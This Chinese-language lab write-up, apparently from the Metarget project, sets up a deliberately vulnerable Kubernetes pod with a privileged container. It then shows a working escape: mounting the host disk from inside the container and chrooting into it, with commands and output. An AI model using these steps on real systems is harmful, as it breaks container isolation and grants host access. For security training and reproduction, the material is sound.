 # 特权容器导致容器逃逸

内容部分摘录自[《容器逃逸技术概览》](https://wohin.me/rong-qi-tao-yi-gong-fang-xi-lie-yi-tao-yi-ji-zhu-gai-lan)。

## 场景介绍

最初，容器特权模式的出现是为了帮助开发者实现Docker-in-Docker特性[1]。然而，在特权模式下运行不完全受控容器将给宿主机带来极大安全威胁。

官方文档[2]对特权模式的描述如下：

> 当操作者执行`docker run --privileged`时，Docker将允许容器访问宿主机上的所有设备，同时修改AppArmor或SELinux的配置，使容器拥有与那些直接运行在宿主机上的进程几乎相同的访问权限。

## 环境搭建

基础环境（Docker+K8s）准备（如果已经有任意版本的Docker+K8s环境则可跳过）：

```bash
./metarget gadget install docker --version 18.03.1
./metarget gadget install k8s --version 1.16.5 --domestic
```

漏洞环境准备：

```bash
./metarget cnv install privileged-container
```

执行完成后，K8s集群内`metarget`命令空间下将会创建一个名为`privileged-container`的包含特权容器的pod。

注：此场景较为简单，也可以直接使用Docker手动搭建，这里不再赘述。

## 漏洞复现

特权模式下容器能够看到宿主机硬盘设备，可以通过挂载宿主机硬盘的方式实现文件系统层面逃逸。

示例如下（硬盘路径需要根据实际环境确定，这里为`/dev/sda2`）：

```
➜  metarget git:(master) kubectl exec -it -n metarget privileged-container /bin/bash
root@privileged-container:/# fdisk -l | grep /dev/sda2
/dev/sda2   4096 167770111 167766016  80G Linux filesystem
root@privileged-container:/# mount /dev/sda2 /host
root@privileged-container:/# chroot /host
# cat /etc/hostname
metarget-test
```

后续可以通过各种类似于Linux写文件后门的技术获得宿主机上的shell，这里不再赘述。

## 参考文献

1. https://www.docker.com/blog/docker-can-now-run-within-docker/
2. https://docs.docker.com/engine/reference/run/#runtime-privilege-and-linux-capabilities


